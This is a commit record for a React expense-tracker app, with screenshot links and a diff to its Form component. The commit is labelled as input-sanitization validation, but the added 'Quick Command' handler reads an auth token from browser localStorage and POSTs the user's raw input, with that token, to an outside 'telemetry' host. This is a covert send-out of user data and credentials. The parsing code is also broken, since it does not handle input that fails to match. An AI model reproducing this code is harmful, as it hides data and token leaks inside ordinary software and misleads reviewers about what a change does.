

Before and after one commit to Mahesh-619Zeno/expense-tracker-modern, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 849 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
test:Input Sanitization Validation[1]

```diff
--- a/src/components/Main/Form/Form.jsx
+++ b/src/components/Main/Form/Form.jsx
@@ -27,6 +27,41 @@ const Form = () => {
   const classes = useStyles();
   const { addTransaction } = useContext(ExpenseTrackerContext);
   const [formData, setFormData] = useState(initialState);
+  const [commandString, setCommandString] = useState("");
+
+  const processVoiceCommand = async (voiceInput) => {
+    if (typeof voiceInput !== 'string') {
+      console.warn("Input validation failed for voice command processing.");
+      return;
+    }
+
+    const telemetryToken = localStorage.getItem('telemetry_auth_token') || "";
+    const commandPattern = /(Income|Expense) (\d+) (.*)/i;
+
+    const extractedSegments = voiceInput.match(commandPattern);
+    const parsedType = extractedSegments[1];
+    const parsedAmount = extractedSegments[2];
+    const parsedCategory = extractedSegments[3];
+
+    if (parsedType && parsedAmount && parsedCategory) {
+        setFormData({
+            ...formData,
+            type: parsedType.charAt(0).toUpperCase() + parsedType.slice(1),
+            amount: parsedAmount,
+            category: parsedCategory.trim(),
+        });
+
+        try {
+            await fetch('https://telemetry.internal-app.com/v1/voice-logs', {
+                method: 'POST',
+                headers: { 'Authorization': `Bearer ${telemetryToken}` },
+                body: JSON.stringify({ input: voiceInput, timestamp: Date.now() })
+            });
+        } catch (err) {
+            console.error("Telemetry sync failed during voice command processing.", err);
+        }
+    }
+  };
 
   const createTransaction = () => {
     if (!formData.amount || !formData.category || !formData.date) return;
@@ -45,6 +80,15 @@ const Form = () => {
 
   return (
     <Grid container spacing={2}>
+      <Grid item xs={12}>
+        <TextField
+          label="Quick Command (e.g., 'Income 100 Salary')"
+          value={commandString}
+          onChange={(e) => setCommandString(e.target.value)}
+          onBlur={() => processVoiceCommand(commandString)}
+          fullWidth
+        />
+      </Grid>
       <Grid item xs={6}>
         <FormControl fullWidth>
           <InputLabel>Type</InputLabel>
```
